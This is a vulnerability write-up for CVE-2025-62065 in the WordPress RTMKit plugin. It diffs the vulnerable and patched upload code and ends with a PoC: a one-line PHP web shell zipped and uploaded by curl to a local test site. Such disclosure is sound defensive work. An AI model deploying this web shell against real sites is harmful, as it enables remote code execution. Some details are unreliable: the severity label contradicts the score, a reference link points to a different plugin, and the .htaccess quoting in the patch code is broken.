



<!--more-->

## CVE & Basic Info

* **CVE ID**: [CVE-2025-62065](https://www.cve.org/CVERecord?id=CVE-2025-62065)
* **Vulnerability Type**: Arbitrary File Upload
* **Affected Versions**: <= 1.6.5
* **Patched Versions**: 1.6.6
* **CVSS severity**: Medium (9.9)
* **Required Privilege**: Contributor
* **Product**: [WordPress RTMKit Plugin](https://wordpress.org/plugins/rometheme-for-elementor/)

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **RTMKit**: **1.6.5** (vulnerable) and **1.6.6** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) or any diff comparison tool to inspect and compare differences between the two versions.
* [**Elementor**](https://wordpress.org/plugins/elementor/)

## Analysis

### Patch diff

```php {title="template.php - v1.6.5" hl_lines=[26] data-open=true}
function rtm_handle_upload_template()
{
    check_ajax_referer('rtm_template_nonce', 'nonce');

    if (empty($_FILES['file'])) {
        wp_send_json_error('No file uploaded.');
    }

    $file = $_FILES['file'];
    $ext = strtolower(pathinfo($file['name'], PATHINFO_EXTENSION));
    if ($ext !== 'zip') {
        wp_send_json_error('Only .zip files are allowed.');
    }

    $upload_dir = wp_upload_dir();
    // path on server
    $tmpFilePath = $upload_dir['basedir'] . '/rtm_temp_' . wp_unique_filename($upload_dir['basedir'], $file['name']);

    // public URL
    $tmpFileUrl  = $upload_dir['baseurl'] . '/' . basename($tmpFilePath);

    if (!move_uploaded_file($file['tmp_name'], $tmpFilePath)) {
        wp_send_json_error('Failed to save temporary file.');
    }

    $res = $this->template_extract($tmpFileUrl, $file['name'], true);

    // after done remove file
    if (file_exists($tmpFilePath)) unlink($tmpFilePath);
    if ($res) {
        wp_send_json_success('Template successfully uploaded and extracted.');
    } else {
        wp_send_json_error($res);
    }
}
```

```php {title="template.php - v1.6.5"}
function template_extract($url, $id, $return = false)
{
    $upload_dir = wp_upload_dir();
    $custom_dir = $upload_dir['basedir'] . '/rometheme_template';
    $tempFile = wp_tempnam($url);

    $hashId = wp_hash($id);
    $targetDir = $custom_dir . '/' . $hashId;

    $response = wp_remote_get($url, ['timeout' => 300]);

    if (is_wp_error($response)) {
        wp_send_json_error($response->get_error_message());
    }

    $fileContent = wp_remote_retrieve_body($response);

    file_put_contents($tempFile, $fileContent);

    $zip = new ZipArchive();
    if ($zip->open($tempFile) === TRUE) {
        wp_mkdir_p($targetDir);
        $zip->extractTo($targetDir);
        $zip->close();
        unlink($tempFile);

        $option = get_option('rtm_template_installed', []); // Default to array if option not present
        if (!is_array($option)) {
            $option = []; // Ensure $option is an array
        }
        $option[$hashId] = [
            'template_id' => $id
        ];

        update_option('rtm_template_installed', $option); // Save back to database

        if ($return) {
            return true;
        } else {
            wp_send_json_success(['message' => 'success extract', 'template' => $hashId]);
        }
    }
}
```

In the vulnerable version:

* **No proper user capability check:** it only calls `check_ajax_referer()` but does not verify capability (e.g., `current_user_can`) → a user with a valid nonce or a leaked nonce can still upload.
* **Temporary file saved in the public uploads folder (`wp_upload_dir()`):** `$tmpFilePath` is under `uploads/` so it is accessible via a URL (`$tmpFileUrl`) while the file exists.
* **Retrieves the file via the public URL before extraction:** `template_extract()` uses `wp_remote_get($tmpFileUrl)` → depends on a public URL.
* **Extracts directly into a public directory:** `extractTo($targetDir)` into `uploads/rometheme_template` → if a `.php` file is placed, the webserver may execute it.
* **No whitelist/deny for extensions:** does not remove or reject executable files (`.php`, `.phtml`, `.phar`, `.sh`, `.exe`, ...).
* **No content check for embedded PHP:** there is no step to scan for `<?php` before saving.
* **Temporary public exposure risk:** because the temp file is public during processing, an attacker has time to access/set up payload before the file is unlinked.

=> High likelihood of RCE.

```php {title="template.php - v1.6.6" hl_lines=[47] data-open=true}
function rtm_handle_upload_template()
{
    check_ajax_referer('rtm_template_nonce', 'nonce');

    if (empty($_FILES['file'])) {
        wp_send_json_error('No File Uploaded.');
    }

    if (! current_user_can('manage_options')) {
        wp_send_json_error(
            array('message' => 'Insufficient permissions'),
            403
        );
    }

    $file = $_FILES['file'];
    $ext  = strtolower(pathinfo($file['name'], PATHINFO_EXTENSION));
    if ($ext !== 'zip') {
        wp_send_json_error('Only .zip file allowed.');
    }
    $upload_dir = wp_upload_dir();
    // Safe directory (not directly in public uploads)
    $base_safe_dir = $upload_dir['basedir'] . '//rometheme_template/';
    $tmp_dir       = $base_safe_dir . 'tmp/';
    if (! file_exists($tmp_dir)) {
        wp_mkdir_p($tmp_dir);
        // prevent php execution in this folder
        @file_put_contents(
            $base_safe_dir . '.htaccess',
            "Options -Indexes <FilesMatch ".(php|phtml|phar)$">  Deny from all</FilesMatch>"
        );
    }

    // Create unique name for zip
    $unique       = wp_generate_password(12, false);
    $tmp_zip_path = $tmp_dir . 'upload_' . $unique . '.zip';

    // Save uploaded file to safe location
    if (! move_uploaded_file($file['tmp_name'], $tmp_zip_path)) {
        wp_send_json_error(
            array('message' => 'Failed save temporary file.'),
            500
        );
    }

    // Process extraction with secure function
    $res = $this->template_extract_secure($tmp_zip_path, $file['name'], true);

    // Remove temporary zip
    if (file_exists($tmp_zip_path)) {
        @unlink($tmp_zip_path);
    }

    if ($res) {
        wp_send_json_success('Template has been successfully extracted.');
    } else {
        wp_send_json_error('Failed extracting template.');
    }
}
```

```php {title="template.php - v1.6.6"}
function template_extract_secure($zip_path, $id, $return = false)
{
    if (empty($zip_path) || ! file_exists($zip_path)) {
        return $return ? false : wp_send_json_error(['message' => 'Zip file not found.'], 400);
    }

    $zip_path = realpath($zip_path);
    if (strpos($zip_path, realpath(WP_CONTENT_DIR)) !== 0) {
        return $return ? false : wp_send_json_error(['message' => 'Invalid zip location.', 'path' => $zip_path], 403);
    }

    $upload_dir = wp_upload_dir();
    $hashId     = wp_hash($id);
    $base_dir   = $upload_dir['basedir'] . '/rometheme_template';
    $targetDir  = $base_dir . '/' . $hashId . '/';

    // create base dir + protect root
    if (! file_exists($base_dir)) {
        wp_mkdir_p($base_dir);
        @file_put_contents($base_dir . '/.htaccess', "Options -Indexes<FilesMatch ".(php|phtml|phar)$">  Deny from all</FilesMatch>");
    }
    if (! file_exists($targetDir)) {
        wp_mkdir_p($targetDir);
        @file_put_contents($targetDir . 'index.html', '<!-- protected -->');
    }

    $zip = new ZipArchive();
    if ($zip->open($zip_path) !== true) {
        return $return ? false : wp_send_json_error(['message' => 'Invalid or corrupt zip.'], 400);
    }

    // whitelist extensions
    $allowed_ext = ['jpg', 'jpeg', 'png', 'gif', 'svg', 'webp', 'json', 'css', 'js', 'txt', 'html', 'htm', 'md'];

    // check zip contents
    for ($i = 0; $i < $zip->numFiles; $i++) {
        $entry = $zip->getNameIndex($i);
        if (substr($entry, -1) === '/') continue;

        $normalized = str_replace('\\', '/', $entry);

        // block traversal / absolute
        if (strpos($normalized, '../') !== false || substr($normalized, 0, 1) === '/' || preg_match('/^[A-Za-z]:\\\\/', $entry)) {
            $zip->close();
            error_log("[rtm] rejected: traversal ($entry)");
            return $return ? false : wp_send_json_error(['message' => 'Zip contains invalid paths.'], 400);
        }

        $entry_ext = strtolower(pathinfo($entry, PATHINFO_EXTENSION));
        if (empty($entry_ext) || in_array($entry_ext, ['php', 'phtml', 'phar', 'exe', 'sh', 'pl', 'cgi'], true)) {
            $zip->close();
            error_log("[rtm] rejected: bad extension ($entry)");
            return $return ? false : wp_send_json_error(['message' => 'Zip contains disallowed file types.'], 400);
        }

        if (! in_array($entry_ext, $allowed_ext, true)) {
            $zip->close();
            error_log("[rtm] rejected: unsupported ext $entry_ext ($entry)");
            return $return ? false : wp_send_json_error(['message' => "Unsupported file type: $entry_ext"], 400);
        }
    }

    // extract with original folder structure
    for ($i = 0; $i < $zip->numFiles; $i++) {
        $entry = $zip->getNameIndex($i);
        if (substr($entry, -1) === '/') continue;

        $entry_ext = strtolower(pathinfo($entry, PATHINFO_EXTENSION));
        if (! in_array($entry_ext, $allowed_ext, true)) continue;

        $normalized = str_replace('\\', '/', $entry);
        $safe_name  = sanitize_file_name(basename($normalized));
        $subdir     = dirname($normalized);

        $final_dir  = $targetDir . ($subdir !== '.' ? $subdir . '/' : '');
        wp_mkdir_p($final_dir);

        $target_path = $final_dir . $safe_name;

        $stream = $zip->getStream($entry);
        if ($stream === false) continue;

        $out = fopen($target_path, 'w');
        if ($out === false) {
            fclose($stream);
            continue;
        }

        while (! feof($stream)) fwrite($out, fread($stream, 8192));
        fclose($out);
        fclose($stream);

        // detect embedded php
        $head = @file_get_contents($target_path, false, null, 0, 512);
        if ($head !== false && stripos($head, '<?php') !== false) {
            @unlink($target_path);
            error_log("[rtm] removed suspicious file ($target_path)");
            continue;
        }

        // sanity check → skip mismatch for json so manifest.json isn't removed
        $check = wp_check_filetype_and_ext($target_path, $safe_name);
        if ($entry_ext !== 'json' && $check && isset($check['ext']) && $check['ext'] !== $entry_ext) {
            @unlink($target_path);
            error_log("[rtm] removed mismatch file ($target_path)");
            continue;
        }
    }

    $zip->close();

    // update option
    $option = get_option('rtm_template_installed', []);
    if (! is_array($option)) $option = [];
    $option[$hashId] = ['template_id' => $hashId, 'created' => current_time('mysql')];
    update_option('rtm_template_installed', $option);

    return $return ? true : wp_send_json_success(['message' => 'success extract', 'template' => $hashId]);
}
```

The patch has:

* **User capability check:** adds `current_user_can('manage_options')` → only admins can upload.
* **Move temporary file to a safe, non-public directory:** uses `wp_upload_dir()` but creates `.../rometheme_template/tmp/` as the temporary location, not returning a public URL for the temp file.
* **Create `.htaccess` to block execution:** when creating the base dir, writes a `.htaccess` with `Deny from all` / `FilesMatch "\.(php|phtml|phar)$"` to prevent Apache/PHP executing dangerous files.
* **Random temporary filename:** uses `wp_generate_password(12, false)` to name files like `upload_<random>.zip` → reduces guessability/access.
* **Delete temp file after processing:** still unlinks the zip after processing; now the file is in a non-public area before deletion.
* **Replace extraction with `template_extract_secure()`:** the new function includes many safety checks before and during extraction:

  * **Check ZIP file location:** `realpath()` and compare with `WP_CONTENT_DIR` to ensure zip is in an allowed directory.
  * **Create target dirs & protect root:** create base dir and `index.html` in targets to avoid directory listing; create `.htaccess` in base dir.
  * **Open ZIP safely:** check `open()` success, return appropriate error if failed.
  * **Whitelist extensions:** only allow safe extensions (`jpg,jpeg,png,gif,svg,webp,json,css,js,txt,html,htm,md`).
  * **Block path traversal & absolute paths:** reject entries containing `../`, starting with `/`, or Windows drive letters → prevents Zip Slip.
  * **Reject dangerous extensions:** if an entry has empty ext or ext in blacklist (`php,phtml,phar,exe,sh,pl,cgi`, ...) then close zip and return error.
  * **Prevent mime/ext mismatches:** use `wp_check_filetype_and_ext()`; if mismatch (except json) delete the file.
  * **Scan file head for embedded PHP:** read first 512 bytes; if `<?php` found, delete the file.
  * **Extract files by stream:** write each entry to normalized/sanitized path (`sanitize_file_name(basename(...))`) instead of `extractTo`.
* **Safer option update:** store `$hashId` with timestamp `created` in `rtm_template_installed`.
* **Clearer error handling/returns:** many `wp_send_json_error()` with specific status/messages when issues occur (file not found, invalid zip, disallowed types...).

=> Strongly reduces attack surface via ZIP upload; RCE is prevented.

### Vulnerable Code

In the vulnerable version, the handler accepts an uploaded file (expects `.zip`), saves it to the `uploads/` folder, then calls `template_extract()` to fetch and extract it. Finally it removes the temp file and returns JSON `success/fail`. Specifically:

1. `check_ajax_referer('rtm_template_nonce', 'nonce')`

Helps protect against CSRF — ensures the AJAX request is valid and contains a `nonce`. Searching for `rtm_template_nonce` in the plugin folder shows:



`wp_localize_script()` will print an inline `<script>` into the page and in it declare a JS object variable. In this case, the object `rkit_libs` stores values `logo_url`, `ajax_url`, `template_nonce`.

> [!TIP]
> Because the vulnerability is disclosed with **Contributor** privileges required, and Contributors can usually create **posts**, we try creating a post and accessing the `rkit_libs` object from the browser console to obtain the `nonce`.
>
> > [!INFO]
> > We edit the post using **Elementor**, because the plugin's widgets are used in Elementor; the default editor does not include them.
> > 

2. Check `$_FILES['file']` and **extension**:

```php
if (empty($_FILES['file'])) {
    wp_send_json_error('No file uploaded.');
}

$file = $_FILES['file'];
$ext = strtolower(pathinfo($file['name'], PATHINFO_EXTENSION));
if ($ext !== 'zip') {
    wp_send_json_error('Only .zip files are allowed.');
}
```

Ensures client sent a file and only allows `.zip` uploads.

3. Determine temporary path and **public URL**

```php
$upload_dir = wp_upload_dir();
$tmpFilePath = $upload_dir['basedir'] . '/rtm_temp_' . wp_unique_filename($upload_dir['basedir'], $file['name']);
$tmpFileUrl  = $upload_dir['baseurl'] . '/' . basename($tmpFilePath);
```

Creates a temp filename inside the **uploads** directory and the access URL to that file, e.g.:

```php
$tmpFilePath = "/var/www/html/wp-content/uploads/rtm_temp_filename.zip"
$tmpFileUrl = "http://localhost/wp-content/uploads/rtm_temp_filename.zip"
```

4. `move_uploaded_file($file['tmp_name'], $tmpFilePath)`

Moves the uploaded file from PHP temp into the defined temporary location.

5. Call `template_extract($tmpFileUrl, $file['name'], true)`

```php {title="template.php - v1.6.5"}
function template_extract($url, $id, $return = false)
{
    // Get WordPress upload dir and create template directory
    $upload_dir = wp_upload_dir();
    $custom_dir = $upload_dir['basedir'] . '/rometheme_template';
    
    // Create temporary file to download file from URL
    $tempFile = wp_tempnam($url);

    // Create hash ID for template
    $hashId = wp_hash($id);
    $targetDir = $custom_dir . '/' . $hashId;

    // Download file from URL
    $response = wp_remote_get($url, ['timeout' => 300]);

    // Check for errors during download
    if (is_wp_error($response)) {
        wp_send_json_error($response->get_error_message());
    }

    // Save the ZIP contents into temp file
    $fileContent = wp_remote_retrieve_body($response);
    file_put_contents($tempFile, $fileContent);

    // Open ZIP and extract into target directory
    $zip = new ZipArchive();
    if ($zip->open($tempFile) === TRUE) {
        wp_mkdir_p($targetDir);  // Create dir if not exists
        $zip->extractTo($targetDir);  // Extract to target dir
        $zip->close();
        unlink($tempFile);  // Remove temp file

        // Update 'rtm_template_installed' option in database
        $option = get_option('rtm_template_installed', []);
        if (!is_array($option)) {
            $option = [];
        }
        $option[$hashId] = ['template_id' => $id];
        update_option('rtm_template_installed', $option);

        // Return result
        if ($return) {
            return true;
        } else {
            wp_send_json_success(['message' => 'success extract', 'template' => $hashId]);
        }
    }
}
```

> [!INFO]
> Here the file is not extracted directly (i.e., not allowing Zip Slip to place files outside target), so Zip Slip techniques to move files to higher directories are not applicable.
>
> The final files are saved under `{wp_upload_dir}/rometheme_template/{hashId}/`

6. Returns JSON

---

`rtm_handle_upload_template()` is registered as the callback for the action hook:

```php
add_action('wp_ajax_rtm_handle_upload_template', [$this, 'rtm_handle_upload_template']);
```

Meaning: When a user sends an AJAX request to `wp-admin/admin-ajax.php` with `action=rtm_handle_upload_template`, the `rtm_handle_upload_template()` function is called to handle the request.

### Flow


graph LR;
A[POST REQUEST /wp-admin/admin-ajax.php?action=rtm_handle_upload_template] --> B["rtm_handle_upload_template()"]
B --> C{is .zip extension}
C -->|True| D{"check_ajax_referer()"}
C -->|False| E["wp_send_json_error()"]
D -->|True| F["template_extract()"]
D -->|False| G[Return 401]
F -->|Extract To| H["{wp_upload_dir}/rometheme_template/{hashId}/"]


## Exploit

### Proof of Concept (PoC)

1. Log in with a **Contributor** account
2. Create a post and edit it using **Elementor**
3. Retrieve `rkit_libs.template_nonce` to get the nonce
4. Create a file for RCE

```php
<?php system($_GET['cmd']) ?>
```

5. Zip the created file

```zsh
zip rce.zip rce.php
```

6. Send the upload request

```zsh
curl -X POST "http://localhost/wp-admin/admin-ajax.php" \
  -b "your_cookie" \
  -F "action=rtm_handle_upload_template" \
  -F "nonce=your_nonce" \
  -F "file=@rce.zip;filename=rce.zip;type=application/zip"
```

7. Access the uploaded file



> [!question]
> I want to emphasize that although this file can be accessed directly, direct access is limited by the `hashId`, since WordPress by default does not allow directory listing.

## Conclusion

The vulnerability is the chain: **Arbitrary File Upload + temporary public file + uncontrolled extraction** → risk of RCE. The patch (1.6.6) fixes this by checking capabilities, storing temporary files in a non-public location, whitelisting extensions, blocking traversal, and scanning content.

## Key takeaways

* Update to **1.6.6** immediately.
* If you cannot update: disable template upload or restrict it to admins only.
* Always store uploaded files in non-public locations, whitelist extensions, block path traversal and scan contents before extraction.

## References

[Arbitrary File Upload](https://book.hacktricks.wiki/en/pentesting-web/file-upload/index.html)

[WordPress RTMKit Plugin <= 1.6.5 is vulnerable to Arbitrary File Upload](https://patchstack.com/database/wordpress/plugin/ninja-tables/vulnerability/wordpress-ninja-tables-easy-data-table-builder-plugin-5-0-18-unauthenticated-server-side-request-forgery-vulnerability)
